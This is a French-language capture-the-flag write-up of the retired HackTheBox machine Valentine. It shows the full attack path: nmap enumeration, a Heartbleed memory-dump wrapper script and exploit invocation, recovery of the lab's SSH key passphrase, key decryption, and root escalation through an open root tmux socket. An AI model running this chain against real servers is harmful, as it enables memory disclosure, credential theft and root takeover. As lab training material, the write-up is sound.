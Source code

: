 ```yaml
---
title: "Valentine.htb"
date: 2025-08-04
draft: false
ShowToc: true
TocOpen: true
tags: ["HTB", "CTF", "Heartbleed", "Tmux", "Linux"]
categories: ["HackTheBox", "Easy"]
cover:
  image: "image.png"
summary: "Exploitation de Heartbleed (CVE-2014-0160) pour récupérer un mot de passe, déchiffrer une clé SSH, puis escalader via une session tmux root oubliée."
---
```


{{< tagsline >}}

## Introduction
Writeup complet de la machine Valentine.htb (retired), incluant Heartbleed, extraction de clé SSH et escalade de privilèges via tmux

---

##  Énumération

### Scan initial

```bash
nmap -sC -sV -p- valentine.htb
```

Ports ouverts :

- 22/tcp → OpenSSH 6.6.1
- 80/tcp → Apache 2.2.22 (Ubuntu)

Le site web révèle une interface avec des champs `encode`/`decode`, probablement base64.

```bash
curl http://valentine.htb
```

La page `/dev` contient deux fichiers intéressants :

- `hype_key`
- `notes.txt`

### Analyse initiale

Le fichier `notes.txt` donne un indice sur l’encodeur/décodeur :

> Don't use the decoder/encoder until any of this is done.

Cela laisse penser que des failles côté client sont en jeu, mais sans encoder JS actif, rien d’immédiat.

Le fichier `hype_key` semble être un dump hexadécimal d'une clé SSH privée (confirmé par `file`).

```bash
file hype_key
# ASCII text, with very long lines
```

Contenu analysé : ce n’est pas une image, ni du base64. Probablement une clé SSH.

---

## Exploitation - Prise Pied

### Heartbleed (CVE-2014-0160)
Le port 443 est actif, et un scan `nmap` confirme la vulnérabilité Heartbleed :

```bash
nmap -p 443 --script ssl-heartbleed valentine.htb
```

Résultat :

```
State: VULNERABLE
Risk factor: High
```

###  Script utilisé : `heartbleed_full.sh`

```bash
#!/bin/bash
# Usage: ./heartbleed_full.sh
# Ce script exécute plusieurs fois l’exploit Heartbleed et extrait les chaînes ASCII

read -p "🔢 Nombre d'itérations Heartbleed à exécuter : " count
mkdir -p dumps
rm -f dumps/out_*.txt ascii_concatenated.txt

for i in $(seq -f "%03g" 1 $count); do
    echo "➡️  [Iteration $i]..."
    python2 heartbleed-exploit.py valentine.htb --output dumps/out_$i.txt --ascii
done

echo -e "
🧪 Extraction des chaînes ASCII avec strings..."
strings dumps/out_*.txt | grep -E '[[:print:]]{4,}' | sort -u > ascii_concatenated.txt
echo -e "
✅ Terminé : toutes les chaînes ASCII concaténées dans ascii_concatenated.txt"
```

### Script Python : `heartbleed-exploit.py`

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# Heartbleed exploit par Martial Puygrenier adapté pour extraire ASCII

# (… contenu abrégé, voir pièce jointe pour le fichier complet …)
```

Exécution du script :

```bash
./heartbleed_full.sh
```

Résultat : dans `ascii_concatenated.txt`, on récupère :

```
heartbleedbelievethehype
```

Mot de passe pour la clé SSH.

---

### Clé SSH — Récupération

Convertir le fichier `hype_key` en binaire :

```bash
xxd -r -p hype_key hype_key.pem
```

Déchiffrer avec OpenSSL :

```bash
openssl rsa -in hype_key.pem -out hype_key_decrypted.pem
```

Utilisation :

```bash
ssh -i hype_key_decrypted.pem hype@valentine.htb
```

---

## Escalade de privilèges

Après avoir obtenu un shell SSH en tant que l’utilisateur `hype`, j’ai lancé un classique :

```bash
linpeas.sh
```

💡 **LinPEAS** a mis en évidence la présence d’un processus tmux tournant en tant que root, avec cette ligne intrigante :

```bash
root   1040  0.0  0.1  26416  1672 ?  Ss  01:24   0:00 /usr/bin/tmux -S /.devs/dev_sess
```

### Analyse

Le socket tmux (`-S /.devs/dev_sess`) est accessible (lecture/exécution) par l’utilisateur `hype`.

Le processus appartient à `root`, ce qui signifie que la session associée pourrait être `root` attachée !

### Tentatives manuelles

Liste des sessions disponibles :

```bash
tmux -S /.devs/dev_sess ls
```

Connexion à la session existante :

```bash
tmux -S /.devs/dev_sess attach
```

###  Et là, bingo !

J’ai accédé à une session interactive **root** encore ouverte. Probablement laissée là par un admin négligent, ou par un script de debug.

###  Preuve

```bash
root@Valentine:/# id
uid=0(root) gid=0(root) groups=0(root)
```



## Les Flags

```bash
cat /home/hype/user.txt
cat /root/root.txt
```

---

## Pièces jointes

- [heartbleed_full.sh](files/heartbleed_full.sh)
- [heartbleed-exploit.py](files/heartbleed-exploit.py)

##  Conclusion

Cette machine montre l’impact réel d’une vulnérabilité critique comme Heartbleed. Avec un peu de persévérance, on remonte jusqu’à une clé SSH, puis une élévation de privilèges via une session `tmux` oubliée.

---

{{< admonition type="tip" title="Astuce" >}}
Toujours vérifier tous les couples `user:pass` en SSH, même s’ils semblent destinés au web.
{{< /admonition >}}

{{< admonition type="warning" title="Tri des dumps" >}}
Garde un fichier concaténé `strings | sort -u` + horodatage pour la reproductibilité.
{{< /admonition >}}

